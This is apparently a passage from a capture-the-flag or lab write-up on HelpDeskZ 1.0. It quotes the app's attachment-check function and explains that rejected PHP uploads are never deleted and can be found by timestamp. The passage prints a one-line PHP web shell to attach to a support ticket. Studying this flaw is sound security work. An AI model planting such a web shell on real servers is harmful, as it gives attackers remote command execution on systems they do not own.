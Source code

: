 

`verifyAttachment` can be found
[here](https://raw.githubusercontent.com/evolutionscript/HelpDeskZ-1.0/master/includes/functions.php):



    function verifyAttachment($filename){
        global $db;  
        $namepart = explode('.', $filename['name']);
        $totalparts = count($namepart)-1;
        $file_extension = $namepart[$totalparts];
        if(!ctype_alnum($file_extension)){
            $msg_code = 1;
        }else{
            $filetype = $db->fetchRow("SELECT count(id) AS total, size FROM ".TABLE_PREFIX."file_types WHERE type='".$db->real_escape_string($file_extension)."'");
            if($filetype['total'] == 0){
                $msg_code = 2;
            }elseif($filename['size'] > $filetype['size'] && $filetype['size'] > 0){
                $msg_code = 3;
                $misc = formatBytes($filetype['size']);
            }else{   
                $msg_code = 0;
            }
        }
        $data = array('msg_code' => $msg_code, 'msg_extra' => $misc);
        return $data;
    }



A php file will fail, because it's not in the allowed file types. And
yet, there is no code that will delete the file. It stays in the
temporary location. That is the vulnerability. If I can find that
location, I can access the code. And that location only requires that I
know the time.

### Upload Webshell

I can log in or not log in. Either way, I am able to create a new
ticket. I'll attach a simple php shell:



    <?php system($_REQUEST['cmd']); ?>


